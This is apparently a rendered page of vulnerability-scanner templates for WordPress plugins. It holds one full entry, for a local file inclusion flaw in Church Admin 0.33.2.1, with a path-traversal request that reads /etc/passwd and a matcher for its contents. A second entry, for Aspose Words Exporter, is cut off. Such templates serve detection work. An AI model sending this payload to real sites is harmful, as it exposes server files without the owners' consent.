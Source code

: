 **Type - status**

- status
  1. 200

---

# WordPress Church Admin 0.33.2.1 - Local File Inclusion

## Description

- WordPress Church Admin 0.33.2.1 is vulnerable to local file inclusion via the "key" parameter of plugins/church-admin/display/download.php.
- severity - high
- tags - wordpress,wp-plugin,lfi,wpscan

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/church-admin/display/download.php?key=../../../../../../../etc/passwd

### Matchers

**Type - regex**

- regex
  1. root:[x*]:0:0

**Type - status**

- status
  1. 200

---

# WordPress Aspose Words Exporter \<2.0 - Local File Inclusion

## Description

- WordPress Aspose Words Exporter prior to version 2.0 is vulnerable to local file inclusion.
- severity - high
- tags - wordpress,wp-plugin,lfi,aspose,wpscan

## Requests

- Method - GET
